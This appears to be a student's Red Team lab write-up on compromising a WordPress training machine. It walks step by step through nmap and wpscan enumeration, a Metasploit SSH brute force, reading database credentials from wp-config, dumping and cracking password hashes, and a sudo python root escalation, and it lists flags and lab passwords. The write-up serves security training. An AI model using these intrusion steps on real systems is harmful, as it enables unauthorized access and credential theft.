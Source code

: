 ## Red Team: Summary of Operations

### Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167323675-6f768eff-da1b-490b-b86c-72e2a331e513.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323759-8b74a228-fd22-46af-8999-f0280edcce4b.PNG)
			![flag1b](https://user-images.githubusercontent.com/92223941/167323777-53619b86-1123-4d0d-8a23-56ab23b44df5.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167323904-5f7dbbbf-c62e-4840-9d8d-5c3cb6ca28d3.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167323988-ee4f5658-4624-4ac0-9aa0-6d47643b3918.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167324002-8ede5afa-1078-40b4-a2aa-29477dd533b2.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167324020-5c639462-a395-4025-a2c9-09fd8bd3af5d.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			![flag1g](https://user-images.githubusercontent.com/92223941/167324082-3fc31b7f-4941-42ed-a7aa-83717c4d95ab.PNG)

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			
			![flag1h](https://user-images.githubusercontent.com/92223941/167324979-d7ebf9a0-ca4b-41f1-902d-44ea39952d6a.PNG)

			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”
			
			![flag1i](https://user-images.githubusercontent.com/92223941/167325079-19322eb6-7552-42c7-bd5c-23466815a0e4.PNG)


	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt
			
			![flag2](https://user-images.githubusercontent.com/92223941/167325463-abec4f96-5346-4b02-89d8-152dc391f0bd.PNG)


	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			
			![flag3a](https://user-images.githubusercontent.com/92223941/167325569-dc746cd4-2576-49c0-8df8-37dc32edf0f4.PNG)

			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			
			![flag3b](https://user-images.githubusercontent.com/92223941/167325638-870dc113-3eda-4792-bba7-c003cb2396df.PNG)
			![flag3c](https://user-images.githubusercontent.com/92223941/167325672-71cdd3a8-44bf-4fde-b8e3-54b083990ded.PNG)


			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			
			![flag3d](https://user-images.githubusercontent.com/92223941/167325716-23e594d1-5838-443b-81ea-5369e1bf53ba.PNG)

			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			
			![flag3e](https://user-images.githubusercontent.com/92223941/167325769-473c1a9a-947c-4760-aeba-7934237064d0.PNG)
			![flag3f](https://user-images.githubusercontent.com/92223941/167325809-1d6fc6a6-e45e-44ed-ae22-b19346092a2f.PNG)


			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;
			
			![flag3g](https://user-images.githubusercontent.com/92223941/167325856-51d21d20-cd5b-4c10-9568-3c38b3f7f971.PNG)
			![flag3h](https://user-images.githubusercontent.com/92223941/167325887-ab8c0c7f-e164-4bab-8800-02261a97f9e6.PNG)



	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			
			![flag4a](https://user-images.githubusercontent.com/92223941/167326218-649f1311-d533-4d41-94cf-0a59de663b8f.PNG)

			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			
			![flag4b](https://user-images.githubusercontent.com/92223941/167326266-a4244f27-c934-4392-a83d-3bceb188f5fc.PNG)

			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			
			![flag4c](https://user-images.githubusercontent.com/92223941/167326342-c94b3228-30c0-490d-ac96-d6ffe6bce7a4.PNG)

			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			
			![flag4e](https://user-images.githubusercontent.com/92223941/167326520-ddb2f5c9-ef58-4b7e-8621-23d91c5d8a9c.PNG)
			![flag4g](https://user-images.githubusercontent.com/92223941/167326561-11b6f7e1-e127-4d27-80dd-1e0756f9b8cb.PNG)
			![flag4h](https://user-images.githubusercontent.com/92223941/167326592-35ae610a-cb64-4788-894d-779be493d6c2.PNG)
			![flag4j](https://user-images.githubusercontent.com/92223941/167326622-6dafcd8d-d7b2-4d66-8149-d154a25344b5.PNG)




			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			
			![flag4k](https://user-images.githubusercontent.com/92223941/167326692-5a80a0a4-9f7f-48ba-93eb-4317fdc6f447.PNG)

			- I logged into Steven via ssh 
			- ssh steven password:pink84
			
			![flag4l](https://user-images.githubusercontent.com/92223941/167326728-ac651bee-27af-432e-85f1-bd430ec5381e.PNG)

			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			
			![flag4n](https://user-images.githubusercontent.com/92223941/167326764-62a5208a-dbfd-407a-b146-ca8bd3f9df23.PNG)

			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
			
			![flag4o](https://user-images.githubusercontent.com/92223941/167326928-e79bc557-63bc-4bbe-90d8-e3b6df552cb3.PNG)
			![flag4p](https://user-images.githubusercontent.com/92223941/167326947-95624749-bb2b-4123-b638-34adb95afa9b.PNG)


